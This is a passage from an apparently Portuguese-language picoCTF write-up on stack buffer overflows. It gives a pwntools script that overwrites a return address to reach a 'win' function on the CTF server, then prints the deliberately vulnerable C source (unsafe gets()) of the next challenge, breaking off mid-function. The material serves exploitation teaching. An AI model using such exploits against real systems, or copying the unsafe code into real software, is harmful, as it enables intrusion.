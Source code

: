Os primeiros 4 caracteres são `laaa`, que em hexadecimal é igual a `0x6161616c`. Este é o endereço de retorno sendo usado pela função. Isso significa que podemos simplesmente mudar o `laaa` em nossa entrada para o endereço de retorno que desejamos (no caso, a função `win`, para que possamos obter a flag).

Como não temos PIE, podemos simplesmente usar diretamente o endereço da função `win`, que é `0x080491f6` (você pode obtê-lo usando o comando `disas win` no gdb ou colocando o programa em um descompilador como Ghidra).

Juntando tudo isso, aqui está minha solução usando pwntools:

```python
context(arch = 'i386', os = 'linux')
r = remote(saturn.picoctf.net, 64507)
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa'
payload += int.to_bytes(0x080491f6, 4, 'little')
r.sendline(payload)
r.recvline()
r.recvline()
r.interactive()
```

## buffer overflow 2

Aqui está o código-fonte:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

```